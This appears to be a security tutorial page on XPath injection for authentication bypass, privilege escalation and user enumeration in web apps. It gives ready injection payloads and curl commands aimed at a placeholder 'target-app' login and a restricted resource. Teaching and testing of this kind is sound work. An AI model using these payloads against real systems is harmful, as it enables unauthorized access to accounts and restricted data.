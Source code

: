 ```yaml
---
title: XPath Injection for Authentication Bypass
description: Explore how XPath injection can bypass authentication and authorization
  in web apps.
keywords:
- XPath injection
- authentication bypass
- authorization bypass
- privilege escalation
- web security
---
```


# Authentication and Authorization Bypass

## Context

In the world of web security, exploiting XPath injection vulnerabilities can be a strategic maneuver to bypass authentication and authorization mechanisms. This article aims to demonstrate how an attacker can exploit such vulnerabilities in web applications, effectively bypassing these critical security controls. You should already be familiar with XPath query structure and syntax, as well as web application authentication and authorization flows and general XPath injection techniques.

## Theory

### Authentication Logic Vulnerabilities in XPath Contexts

Authentication bypass via XPath occurs when an application uses unsanitized user input in XPath queries, making it vulnerable to crafted payloads that manipulate the query to always return true. This allows attackers to gain unauthorized access without providing valid credentials. A typical attack sequence involves submitting input that alters the query logic to match any user node, thereby granting access.

#### Attack Sequence
1. The application expects user credentials in the form of XPath queries.
2. The attacker submits a crafted input that manipulates the query logic.
3. The manipulated query evaluates to true, allowing unauthorized access.

### Authorization and Privilege Escalation via XPath Injection

Authorization bypass exploits rely on altering the XPath logic used to verify roles or permissions, enabling attackers to access restricted resources or escalate their privileges. Applications that leverage XPath for these checks can be subverted by injecting conditions that evaluate to true, impersonating privileged users or escalating roles via payloads designed to alter the query's logic.

#### Attack Sequence
1. The application checks user roles using XPath queries.
2. The attacker injects a payload targeting the role attribute.
3. The manipulated query evaluates to include unauthorized roles, escalating privileges.

### User Enumeration and Session Bypass via XPath

XPath injection can reveal valid usernames or session tokens by observing the application's responses to crafted queries. Through iterative payload injections, attackers can manipulate predicates to enumerate users or bypass session checks, leveraging differences in responses to distinguish valid from invalid users.

#### Attack Sequence
1. The attacker injects payloads designed to test for valid usernames.
2. The application's error messages or responses indicate valid usernames or user IDs.
3. The attacker collects this information for further exploitation.

## Practice

### Bypassing Login Authentication with Always-True XPath Injection

To bypass login authentication using an always-true XPath injection:

- **Payload:** 
  ```http
  ' or '1'='1
  ```
  This payload injects an always-true condition into the username or password field, causing the application to grant access.
  
- **Command:**
  ```bash
  curl -X POST -d "username=' or '1'='1&password=irrelevant" http://target-app/login
  ```
  This command sends the payload to the login endpoint. The expected outcome is gaining access without valid credentials.

### Privilege Escalation by Injecting Admin Role in XPath Query

For escalating privileges by injecting an admin role:

- **Payload:** 
  ```http
  ' or role='admin' or '1'='1
  ```
  This command attempts to authenticate as an admin user, resulting in elevated privileges.

### User Enumeration via XPath Error Responses

To perform user enumeration:

- **Payload:** 
  ```http
  admin' or '1'='2
  ```
  Injects a payload to test for valid usernames.

- **Command:**
  ```bash
  curl -X POST -d "username=admin' or '1'='2&password=foo" http://target-app/login
  ```
  This approach relies on observing differences in error messages or responses to enumerate valid usernames or user IDs.

### Authorization Matrix Bypass via XPath Predicate Manipulation

To bypass authorization checks:

- **Payload:** 
  ```http
  ' or '1'='1
  ```
  Forces the predicate to always be true, bypassing authorization.

- **Command:**
  ```bash
  curl -b "session=attacker" http://target-app/restricted?resource=' or '1'='1
  ```
  This command accesses restricted resources by manipulating the resource parameter. The expected outcome is accessing resources without proper authorization.

## Tools

- **curl**
- **Burp Suite**
- **OWASP ZAP**

Each of these tools can be instrumental in crafting and sending malicious payloads, as well as observing application responses to assess vulnerabilities.